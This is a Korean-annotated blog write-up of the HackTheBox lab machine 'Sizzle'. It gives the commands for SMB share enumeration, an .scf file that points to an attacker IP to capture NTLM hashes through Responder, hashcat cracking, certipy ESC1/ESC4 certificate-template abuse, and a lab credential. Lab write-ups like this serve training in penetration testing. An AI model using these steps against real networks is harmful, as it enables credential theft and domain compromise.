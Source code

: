 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 
```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.89.62 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.89.62 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.89.62 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.89.62 -upn 'Administrators@htb.local'
certipy auth -pfx administrators.pfx -dc-ip 10.129.89.62
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```